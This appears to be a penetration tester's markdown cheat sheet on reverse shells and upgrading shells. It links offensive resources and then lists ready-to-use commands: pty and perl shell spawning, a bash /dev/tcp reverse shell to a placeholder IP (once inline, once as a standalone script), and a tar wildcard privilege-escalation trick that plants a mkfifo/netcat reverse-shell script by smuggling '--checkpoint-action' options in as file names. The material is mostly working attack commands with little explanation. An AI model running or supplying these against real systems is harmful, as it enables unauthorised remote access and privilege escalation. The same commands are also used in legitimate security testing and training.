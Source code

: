 # Resources
- [Hacktricks Reverse Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux)
- [RevShells](https://www.revshells.com/)
- https://pentestmonkey.net/category/tools/web-shells
- [Payloads All The Things - Repo](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Socat](https://linux.die.net/man/1/socat)
- [Netcat](../../Tools/Netcat.md)

---
# Shellnanigans

# Upgrading_Shells
- Non-interactive shell session
	- `/bin/bash -i` : launches bash interactive
	- `cat /etc/shells` to view available shells
	- `python --version` : see if python is available
		- `python -c 'import pty; pty.spawn("/bin/bash")'` : spawn bash
	- `perl -e 'exec "/bin/bash";'`
		- `perl -e 'system("/bin/bash");'`
	- can lookup different languages
- `env` check shell environment, add variables if not existing
	- `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`
	- `export TERM=xterm`
	- `export SHELL=bash`
- connect bash to netcat over sockets
	- `bash -i >& /dev/tcp/<IP>/<port> 0>&1`


Tar being called with sudo wildcard `*` [HelpNetSecurity](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com) explanation
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

---

# Scripts
## Python3
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.run("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## Python2
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.call("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## BASH
```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<port> 0>&1
```
